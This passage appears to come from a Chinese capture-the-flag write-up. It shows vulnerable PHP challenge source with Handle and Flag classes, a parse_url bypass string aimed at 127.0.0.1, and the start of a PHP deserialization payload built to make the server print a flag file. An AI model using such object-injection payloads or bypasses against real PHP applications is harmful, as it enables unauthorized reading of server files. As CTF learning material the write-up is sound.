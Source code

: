 ```
    }
	public function __construct($handle) { 
        $this->handle = $handle; 
    } 
	public function __destruct(){
		$this->handle->getFlag();
	}
}


class Flag{
    public $file;
    public $token;
    public $token_flag;
 
    function __construct($file){
		$this->file = $file;
		$this->token_flag = $this->token = md5(rand(1,10000));
    }
    
	public function getFlag(){
		$this->token_flag = md5(rand(1,10000));
        if($this->token === $this->token_flag)
		{
			if(isset($this->file)){
				echo @highlight_file($this->file,true); 
            }  
        }
    }
}
?
```

parse_url存在绕过的漏洞，例如：http://127.0.0.1///index.php

构造payload

```
<?php
class Handle{
    private $handle;


    public function __construct($handle) {
        $this->handle = $handle;


    }
    public function __destruct(){
        $this->handle->getFlag();
    }
}


class Flag{
    public $file;
    function __construct($file){
        $this->file = $file;
    }
    public function getFlag(){
        if(isset($this->file)){
            echo @highlight_file($this->file,true);
        }
    }
```